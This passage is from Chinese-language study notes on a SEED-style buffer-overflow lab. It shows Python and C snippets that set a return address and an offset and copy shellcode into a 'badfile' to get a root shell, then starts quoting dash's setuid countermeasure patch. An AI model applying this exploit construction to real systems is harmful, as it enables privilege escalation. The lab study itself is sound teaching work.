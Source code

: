 ![image-20211011130750485](D:\git_repository\computer_security\学习笔记\4 Buffer_Overflow.assets\image-20211011130750485.png)

关闭了不可执行栈，成功调用了shell。

### The Vulnerable Program

![image-20211011130756407](D:\git_repository\computer_security\学习笔记\4 Buffer_Overflow.assets\image-20211011130756407.png)

### Task 2: Exploiting the Vulnerability

> ​		我们为您提供一个部分完成的 exploit代码，称为“exploit.c”。这段代码的目标是为“badfile”构造内容。在这个代码中，shellcode是给你的。你需要开发剩下的部分。
>
> ​		完成上述程序后，编译并运行它。这将生成badfile的内容。然后运行易受攻击的程序堆栈。如果正确实现了利用漏洞，您应该能够获得根shell：

使用python生成shellcode，填充代码为：

```python
#########################################################################

ret  = 0xbfffeb38 + 100  # replace 0xAABBCCDD with the correct value

offset = 36  # replace 0 with the correct value

Fill the return address field with the address of the shellcode

content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')

#########################################################################
```

使用c语言生shellcode，填充代码为，这里要注意小端对齐：

```c
/* You need to fill the buffer with appropriate contents here */ 
int len = strlen(shellcode);
	for (int i = 0; i < len; i++){
    	buffer[517 - len + i] = shellcode[i];
	}
int ret = 0xbfffeb38 + 100;
buffer[36] = ret;
buffer[37] = ret >> 8;
buffer[38] = ret >> 16;
buffer[39] = ret >> 24;
```

运行结果为：

![image-20211011130951613](D:\git_repository\computer_security\学习笔记\4 Buffer_Overflow.assets\image-20211011130951613.png)

### Task 3: Defeating dash’s Countermeasure

> ​		正如我们之前所解释的，Ubuntu 16.04中的dash shell检测到有效UID不等于实际UID时，将放弃特权。这可以从dash程序的变更日志中观察到。我们可以看到另一个签入行①，它比较真实和有效的用户/组ID。
>
> ```c
> // https://launchpadlibrarian.net/240241543/dash_0.5.8-2.1ubuntu2.diff.gz
> // main() function in main.c has following changes:
> ++ uid = getuid();
> ++ gid = getgid();
> 
> ++ /*
> ++
> ++  * To limit bogus system(3) or popen(3) calls in setuid binaries,
> ++  * require -p flag to work in this situation.
> ++	*/
> ++ if (!pflag && (uid != geteuid() || gid != getegid())) { // ①